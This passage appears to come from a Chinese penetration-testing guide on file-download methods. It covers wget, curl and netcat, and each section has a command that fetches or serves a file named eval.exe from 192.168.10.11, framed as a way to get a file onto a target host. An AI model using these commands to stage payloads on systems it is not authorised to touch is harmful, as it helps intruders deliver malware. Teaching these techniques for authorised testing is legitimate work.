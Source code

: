 

**(2) 第三方服务/应用**

#### ***wget（Windows/Linux）***

##### wget 是一个从网络上自动下载文件的自由工具，支持通过 HTTP、HTTPS、FTP 三个最常见的 TCP/IP协议下载，并可以使用HTTP 代理。"wget" 这个名称来源于 “World Wide Web” 与 “get” 的结合。

```
wget http://192.168.10.11/eval.exe
```



#### ***curl（Windows/Linux）：***

##### curl 是一个利用URL语法在命令行下工作的文件传输工具，1997年首次发行，它支持文件上传和下载，所以是综合传输工具，但按传统，习惯称curl为下载工具，curl还包含了用于程序开发的libcurl。

```
curl http://192.168.10.11/eval.exe
```



#### ***netcat（Windows/Linux）：***

##### nc是一款安全工具，它还有其他的名字 Netcat， Ncat 可用来做端口扫描，端口转发，连接远程系统等。它是一款拥有多种功能的CLI 工具，可以用来在网络上读、写以及重定向数据，它被设计成可以被脚本或其他程序调用的可靠的后端工具，同时由于它能创建任意所需的连接，因此也是一个很好的网络调试工具。当目标主机上安装了ncat是我们可以使用ncat来实现文件下载，当然这种场景在实战中少之又少~

##### **在远程服务器执行下列命令，eval.exe为要上传的文件：**

```
nc -lvp 4444 < eval.exe
```

![nc](Windows&Linux常见文件下载方法/nc.png)
